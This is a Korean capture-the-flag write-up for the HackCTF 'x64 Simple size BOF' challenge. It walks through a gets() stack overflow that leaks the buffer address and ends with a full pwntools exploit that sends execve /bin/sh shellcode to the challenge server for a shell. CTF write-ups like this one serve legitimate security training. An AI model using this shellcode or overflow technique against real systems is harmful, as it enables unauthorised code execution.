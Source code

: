 ```yaml
---


---
```


<h1 id="hackctfx64-simple-size-bof">HackCTF:x64 Simple size BOF</h1>
<h2 id="section">2019-08-13</h2>
<pre><code>int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-6D30h]

  setvbuf(_bss_start, 0LL, 2, 0LL);
  puts(&amp;s);
  printf("buf: %p\n", &amp;v4);
  gets(&amp;v4);
  return 0;
}
</code></pre>
<p>함수 puts() 로 출력 한 뒤  printf()로 버퍼의 주소를 출력하고 있다. 버퍼의 용량은 27952byte다.</p>
<pre><code> ⚡ root@kali  ~/Documents/HackCTF/06-x64_Simple_size_BOF  ./Simple_size_bof 
삐빅- 자살방지 문제입니다.
buf: 0x7ffe46be3ad0
^C
 ✘ ⚡ root@kali  ~/Documents/HackCTF/06-x64_Simple_size_BOF  ./Simple_size_bof
삐빅- 자살방지 문제입니다.
buf: 0x7ffdfe23aa10
^[[A^C
 ✘ ⚡ root@kali  ~/Documents/HackCTF/06-x64_Simple_size_BOF  ./Simple_size_bof
삐빅- 자살방지 문제입니다.
buf: 0x7ffc424251a0
^C
</code></pre>
<p>puts() 는 일반적인 스트링이며 printf()로 출력되는 버퍼의 주소가 계속 바뀌고 있음을 발견했다.<br>
이번 공격 목표는 printf()에 출력되는 주소를 캐치하여 gets()로 쉘코드와 함께 BOF로 버퍼를 재실행 하는 것이다.</p>
<pre><code>from pwn import *
p = remote('ctf.j0n9hyun.xyz', 3005)
shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"

p.recvuntil(": ")
buff = int(p.recv(14), 16)
print buff

payload = ''
payload += shellcode
payload += "A" * 27937
payload += p64(buff)

p.sendline(payload)
p.interactive()
</code></pre>

